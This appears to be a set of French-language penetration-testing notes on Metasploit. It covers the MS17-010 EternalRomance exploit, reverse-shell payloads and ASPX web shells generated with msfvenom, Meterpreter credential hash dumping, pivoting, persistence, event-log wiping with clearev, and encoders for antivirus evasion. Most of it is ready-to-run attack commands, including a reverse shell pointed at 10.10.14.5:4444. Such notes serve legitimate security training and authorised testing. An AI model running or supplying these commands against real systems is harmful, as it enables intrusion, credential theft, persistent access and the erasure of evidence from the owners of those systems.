

## Structure des modules Metasploit

La structure des modules suit une hiérarchie logique : `<type>/<os>/<service>/<name>`.

### Types de modules
*   **exploit** : Lancement d'attaques contre des cibles.
*   **auxiliary** : Scanners, sniffers, fuzzers.
*   **post** : Modules de post-exploitation.
*   **payload** : Code délivré par les exploits.
*   **encoder** : Encodage des payloads.
*   **nop** : Maintien de la taille du payload uniforme.
*   **plugin** : Ajout de fonctionnalités à **msfconsole**.

## Recherche de modules

La commande **search** permet de filtrer les modules disponibles.

```bash
search [keywords:term] [type:] [platform:] [rank:] [-s column] [-r]
```

### Exemples
```bash
search ms17_010
search type:exploit platform:windows cve:2017 rank:excellent
search name:eternalromance
```

## Utilisation des plugins

Les plugins étendent les capacités de **msfconsole**. Le plugin **db_nmap** permet d'intégrer directement les résultats de scan dans la base de données interne.

```bash
load db_nmap
db_nmap -sV -p 445 10.10.10.10
hosts
services
```

## Exploitation EternalRomance (MS17-010)

> [!warning] Risque de crash
> L'utilisation d'exploits kernel comme MS17-010 présente un risque élevé de provoquer un crash du service cible ou du système d'exploitation.

```bash
search ms17_010
use exploit/windows/smb/ms17_010_psexec
```

### Configuration des options
```bash
set RHOSTS <target-ip>
set LHOST <your-ip>
set LPORT <your-listener-port>
```

> [!tip] Persistance des variables
> L'utilisation de **setg** permet de rendre les variables persistantes pour toute la durée de la session **msfconsole**.

```bash
setg RHOSTS <target-ip>
setg LHOST <your-ip>
```

### Exécution
```bash
run
```

## Gestion des payloads

Un payload est un morceau de code délivré via un exploit.

| Type | Description |
| :--- | :--- |
| **Singles** | Payload complet en une seule fois. |
| **Stagers** | Établissent la connexion (reverse/bind), taille réduite. |
| **Stages** | Envoyés après le stager ; effectuent l'action réelle (ex: **Meterpreter**). |

> [!info] Stagers vs Stages
> La différence critique réside dans le fait que le **Stager** assure la connexion initiale tandis que le **Stage** déploie la charge utile complète.

### Recherche et sélection
```bash
show payloads
grep meterpreter show payloads
set payload windows/x64/meterpreter/reverse_tcp
```

## Utilisation de msfvenom pour la création de binaires personnalisés

**msfvenom** combine les fonctionnalités de **msfpayload** et **msfencode**. Il est essentiel pour générer des binaires personnalisés (voir [[Windows]] et [[Webshells]]).

```bash
# Génération d'un binaire exécutable
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe

# Génération d'un payload pour une application web (ASPX)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx -o shell.aspx
```

## Commandes Meterpreter

**Meterpreter** réside uniquement en mémoire, évitant ainsi les entrées/sorties disque.

*   **getuid** : Identité de l'utilisateur.
*   **sysinfo** : Informations système.
*   **ps** : Liste des processus.
*   **migrate <pid>** : Migration vers un autre processus.
*   **hashdump** : Extraction des hashs.
*   **shell** : Accès à un shell système standard.

## Post-exploitation avancée

Une fois la session établie, il est nécessaire d'étendre l'accès (voir [[Reverse Shell]]).

### Pivoting et Port Forwarding
Permet d'accéder à des réseaux internes inaccessibles directement.

```bash
# Ajout d'une route vers le réseau interne
run autoroute -s 192.168.1.0/24

# Redirection de port
portfwd add -l 8080 -p 80 -r 192.168.1.5
```

### Persistance
Pour maintenir l'accès après un redémarrage.

```bash
run exploit/windows/local/persistence_service
```

## Analyse des logs et nettoyage de traces

Il est crucial de nettoyer les logs Windows après une intrusion pour éviter la détection.

```bash
# Effacement des journaux d'événements
clearev
```

## Utilisation des Encoders

Les encoders modifient le shellcode pour éviter la détection par signature.

> [!danger] Limites des encoders
> Les encoders **Metasploit** ne suffisent plus pour bypass les EDR/AV modernes.

### Usage de base
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -e x86/shikata_ga_nai -b "\x00" -f exe -o payload_encoded.exe
```

### Encoders courants
| Encoder | Arch | Rank |
| :--- | :--- | :--- |
| **x86/shikata_ga_nai** | x86 | excellent |
| **x86/countdown** | x86 | normal |
| **x64/xor** | x64 | manual |
| **x86/alpha_upper** | x86 | low |

> [!note] Efficacité
> L'utilisation intensive d'itérations (flag **-i**) n'augmente pas significativement les chances de contournement face aux solutions de sécurité actuelles.

## Liens associés
* [[Basic]]
* [[Commands]]
* [[Reverse Shell]]
* [[Windows]]
* [[Webshells]]
```